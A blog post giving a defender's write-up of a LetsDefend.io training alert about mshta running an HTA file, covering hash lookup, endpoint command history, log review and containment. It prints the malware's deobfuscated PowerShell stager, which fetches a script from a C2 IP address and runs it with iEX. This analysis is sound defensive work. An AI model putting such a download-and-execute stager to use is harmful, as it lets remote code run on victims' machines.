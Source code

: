 ```yaml
---
layout: post
published: true
title: write up - suspicious mshta behavior
author: admin
comments: true
date: '2022-04-13 18:00'
categories:
  - DFIR
---
```


I've been trying out [letsdefend.io](https://letsdefend.io/) for a couple of week, and here's a write up of one of the challenge. its a platform to hone your blue teaming skill, you will be using some sort of SIEM apps and act as an analyst, i.e. finding IOC and deciding escalation etc. There are not a lot of blue team training site, and this hands on concept by [letsdefend.io](https://letsdefend.io/) is great. 

With that intro about [letsdefend.io](https://letsdefend.io/) out of the way, here goes the write up. 
<!--more-->

![mshta behaviour](/images/wup_ld.png)

This is what the case looked like, basically a host execute hta file thus an alert is triggered. Our job is to see what really happened and do the intended playbook exercise. Some things that we can check to help with analysis are the hash (virustotal) and the IP address (we'll try command history/ proccess history at the endpoint security tab). Afterward we are gonna decide on containment (eradication and recovery) and last the lesson learned from said incident.

#### virustotal

We can use the hash we found at the first picture to search scan result at virustotal. The [result on virustotal](https://www.virustotal.com/gui/file/886095c7861a068d1ee603c71cb161f256941e802e743fe2161f30013947a2f1/detection) look pretty bad, 23/58 malicious flag. you could also try to find the file and do more analysis, but for now I think we can move to endpoint security tabs and do more analysis there.

#### endpoint security

![wup_endpoint](/images/wup_endpoint.png)

We use endpoint security tab to find out what was happening in the host 172.16.17.38. 
The screenshot above is from the command history portion of the tab, where we can see the first command line that trigger the alert, followed by another not so clear command.

```bash 
C:/Windows/System32/mshta.exe C:/Users/roberto/Desktop/Ps1.hta
```

The first command above is what triggered the alert. Mshta is a trusted Microsoft binary that in this case is abused for execution of the Ps1.hta file. 
you can see the related explanation here at the [MITRE](https://attack.mitre.org/techniques/T1218/005/)

Now we tried a bit of magic at the second command so it will be more readable. 

```bash
function H1($i) 
{$r = '' ; for ($n = 0; $n -Lt $i.LengtH; $n += 2)
{$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
$H2 = (new-object ('{1}{0}{2}' -f'WebCL','net.','ient'));
$H3 = H1 '446f776E';
$H4 = H1 '6C6f';
$H5 = H1 '616473747269';
$H6 = H1 '6E67';
$H7 = $H3+$H4+$H5+$H6;
$H8 = $H2.$H7('http://193.142.58.23/Server.txt');
iEX $H8
```

* $H3-H6 with the help of $H1 just basically hex that reads "Downloadstring". 
* $H2 was a glorified "New-Object Net.WebClient". 
* $H8 puts them all together to form an old fashion download using powershell from address mentioned in $H8 (http://193.142.58.23/Server.txt). 

So it's a call to C2 server 193.142.58.23, probably trying to download something.

#### log management

After seeing what the script do, we best check log management and try to see did the host (172.16.17.38) managed to reach the C2 server (193.142.58.23) what the C2 server reply with. We can do this by filtering source/ dest. address using host and/or C2 server IP that we had before. Below is the filtered result of from the log management tabs.

![wup_endpoint](/images/wup_logmgmt.png)

There we can see that the C2 server replied with 404, so no response arrived for the host (172.16.17.38) because the server is dead/ the file was not there.

#### containment and lesson learned

Based on our previous analysis, we can safely conclude that its a malicious script, but stopped due to the C2 server is dead. 
Next step would be to contain the host. We can do this by going to endpoint security and use the request containment button. 

Lastly, we can use the IP address, and URL and also the md5 hash of the executed file can as IOC when we did the playbook and also close the case.



